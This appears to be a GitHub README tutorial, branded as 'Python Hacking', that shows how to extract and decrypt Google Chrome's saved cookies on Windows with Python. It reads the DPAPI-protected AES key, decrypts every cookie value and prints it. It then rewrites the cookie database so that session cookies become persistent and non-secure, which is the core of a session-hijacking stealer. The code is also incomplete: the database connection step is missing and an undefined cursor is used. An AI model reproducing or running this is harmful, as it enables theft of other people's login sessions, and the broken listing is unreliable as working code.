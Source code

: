 # Extract-Chrome-Cookies-in-Python
Learn how to extract Google Chrome browser saved cookies and decrypt them on your Windows machine in Python.

# 𝙉𝙖𝙩𝙧𝙞𝙭 𝙋𝙮𝙩𝙝𝙤𝙣 𝙃𝙖𝙘𝙠𝙞𝙣𝙜 #1

`$ pip3 install pycryptodome pypiwin32`
  
## Open up a new Python file and import the necessary modules:

```PY
import os
import json
import base64
import sqlite3
import shutil
from datetime import datetime, timedelta
import win32crypt # pip install pypiwin32
from Crypto.Cipher import AES # pip install pycryptodome
```

## Below are two handy functions that will help us later for extracting cookies

```PY
def get_chrome_datetime(chromedate):
    """Return a `datetime.datetime` object from a chrome format datetime
    Since `chromedate` is formatted as the number of microseconds since January, 1601"""
    if chromedate != 86400000000 and chromedate:
        try:
            return datetime(1601, 1, 1) + timedelta(microseconds=chromedate)
        except Exception as e:
            print(f"Error: {e}, chromedate: {chromedate}")
            return chromedate
    else:
        return ""

def get_encryption_key():
    local_state_path = os.path.join(os.environ["USERPROFILE"],
                                    "AppData", "Local", "Google", "Chrome",
                                    "User Data", "Local State")
    with open(local_state_path, "r", encoding="utf-8") as f:
        local_state = f.read()
        local_state = json.loads(local_state)

    # decode the encryption key from Base64
    key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])
    # remove 'DPAPI' str
    key = key[5:]
    # return decrypted key that was originally encrypted
    # using a session key derived from current user's logon credentials
    # doc: http://timgolden.me.uk/pywin32-docs/win32crypt.html
    return win32crypt.CryptUnprotectData(key, None, None, None, 0)[1]
```

### `get_chrome_datetime()` function converts the datetimes of chrome format into a Python datetime format.

### `get_encryption_key()` extracts and decodes the AES key that was used to encrypt the cookies, which is stored in 
### `"%USERPROFILE%\AppData\Local\Google\Chrome\User Data\Local State"` file in JSON format.

```PY
def decrypt_data(data, key):
    try:
        # get the initialization vector
        iv = data[3:15]
        data = data[15:]
        # generate cipher
        cipher = AES.new(key, AES.MODE_GCM, iv)
        # decrypt password
        return cipher.decrypt(data)[:-16].decode()
    except:
        try:
            return str(win32crypt.CryptUnprotectData(data, None, None, None, 0)[1])
        except:
            # not supported
            return ""
```

## The above function accepts the data and the AES key as parameters and uses the key to decrypt the data to return it.

## Now that we have everything we need, let's dive into the main function:

```PY
def main():
    # local sqlite Chrome cookie database path
    db_path = os.path.join(os.environ["USERPROFILE"], "AppData", "Local",
                            "Google", "Chrome", "User Data", "Default", "Network", "Cookies")
    # copy the file to current directory
    # as the database will be locked if chrome is currently open
    filename = "Cookies.db"
    if not os.path.isfile(filename):
        # copy file when does not exist in the current directory
        shutil.copyfile(db_path, filename)
```

### The file that contains the cookies data is located as defined in `db_path` variable, we need to copy it to the current directory, as the database will be locked when the Chrome browser is currently open.

### Connecting to the `SQLite` database:

```PY
       # get the AES key
    key = get_encryption_key()
    for host_key, name, value, creation_utc, last_access_utc, expires_utc, encrypted_value in cursor.fetchall():
        if not value:
            decrypted_value = decrypt_data(encrypted_value, key)
        else:
            # already decrypted
            decrypted_value = value
        print(f"""
        Host: {host_key}
        Cookie name: {name}
        Cookie value (decrypted): {decrypted_value}
        Creation datetime (UTC): {get_chrome_datetime(creation_utc)}
        Last access datetime (UTC): {get_chrome_datetime(last_access_utc)}
        Expires datetime (UTC): {get_chrome_datetime(expires_utc)}
        ===============================================================
        """)
        # update the cookies table with the decrypted value
        # and make session cookie persistent
        cursor.execute("""
        UPDATE cookies SET value = ?, has_expires = 1, expires_utc = 99999999999999999, is_persistent = 1, is_secure = 0
        WHERE host_key = ?
        AND name = ?""", (decrypted_value, host_key, name))
    # commit changes
    db.commit()
    # close connection
    db.close()
```
